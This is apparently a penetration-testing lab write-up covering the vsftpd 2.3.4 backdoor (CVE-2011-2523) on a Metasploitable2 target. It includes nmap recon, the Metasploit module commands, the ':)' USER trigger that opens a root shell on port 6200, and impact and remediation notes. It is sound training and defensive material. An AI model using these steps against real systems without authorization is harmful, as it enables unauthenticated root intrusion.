



# Metasploitable2 - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

- **Category:** Network Pentesting - Gaining Access
- **Environment:** Self-hosted lab - Kali Linux (attacker) + Metasploitable2 (target), Host-Only network
- **Tools used:** Nmap, Metasploit Framework (msfconsole), Wireshark

## Objective
Enumerate Metasploitable2 exposed services, identify a known vulnerable service version and exploit it to gain remote root-level shell access, while observing the attack at the packet level in Wireshark.

## Recon / Enumeration
Confirmed host was reachable via ICMP:
```
ping -c 4 192.168.30.7
```

Performed a full TCP port scan with version and script detection:
```
nmap -sV -sC -p- 192.168.30.7
```

Port 21 returned:
```
21/tcp open  ftp  vsftpd 2.3.4
```



This version string is the indicator - vsftpd 2.3.4 was a trojaned release distributed briefly in 2011, with a backdoor built into the binary itself.

## Vulnerability
**CVE-2011-2523** - vsftpd 2.3.4 contains a backdoor: sending a username containing the smiley-face string `:)` **test:)** in the FTP `USER` command causes the backdoored binary to open a root shell listener on TCP port 6200. No authentication or valid credentials are required.

This falls under **Configuration/Application Vulnerability** in standard vulnerability-category terms - the weakness is in the distributed software itself, not misconfiguration or a coding flaw in the FTP protocol handling.


## Exploitation Steps
1. Launched Metasploit and searched for the relevant module:
    ```
    msfconsole
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```
2. Set the target:
   ```
   set RHOSTS 192.168.30.7
   run
   ```
3. Metasploit sent the FTP `USER` command containing `:)`, triggering the backdoor:

   

4. A new TCP connection opened to the target delivering a root shell access.

5. Verified access level inside the shell:
   

## Impact
Full, unauthenticated remote root access to the target system with zero prior credentials or user interaction. An attacker gains complete control: file system access, ability to pivot further into the network, install persistence, or exfiltrate data. This is a critical-severity finding (CVSS 10.0 equivalent - Network attack vector, Low complexity, No privileges required, No user interaction, High impact on confidentiality/integrity/availability).

## Remediation
- Do not run vsftpd 2.3.4 - upgrade to a patched, non-trojaned version.
- Verify package integrity/checksums when installing software from third-party mirrors.
- Restrict FTP service exposure via firewall rules to only trusted network segments.
- Monitor for unexpected listening ports (e.g., 6200) as an indicator of compromise.

## Key Takeaway
A single outdated service banner (`vsftpd 2.3.4`) was enough to identify a critical, publicly documented backdoor - reinforcing why banner/version enumeration during the scanning phase is not a formality but the single most useful signal for prioritizing what to exploit first.
